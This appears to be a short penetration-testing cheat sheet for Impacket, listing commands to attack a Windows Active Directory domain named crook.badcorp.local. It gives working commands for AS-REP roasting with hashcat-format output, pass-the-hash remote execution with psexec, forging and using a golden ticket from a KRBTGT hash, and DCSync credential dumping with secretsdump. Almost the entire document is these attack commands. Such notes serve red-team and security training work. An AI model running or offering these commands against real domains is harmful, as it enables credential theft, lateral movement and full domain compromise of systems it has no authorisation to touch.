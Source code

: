# Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### Account with doesn't require Kerberos Auth

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

```csharp
./psexec.py -hashes <ntlm hash:ntlm hash> Administrator@<HOSTNAME>

# or without password (kerberos)

./psexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

## DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

